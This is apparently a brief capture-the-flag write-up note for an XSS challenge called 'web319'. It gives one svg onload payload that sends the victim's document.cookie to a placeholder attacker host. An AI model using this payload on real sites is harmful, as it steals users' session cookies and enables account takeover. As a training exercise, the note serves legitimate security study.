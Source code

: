 # web319
依然用svg标签可过
```
<svg onload="location.href='http://xx.xx.xx.xx/getflag.php?cookie='+document.cookie"/>

```
![](vx_images/264734441719631.png)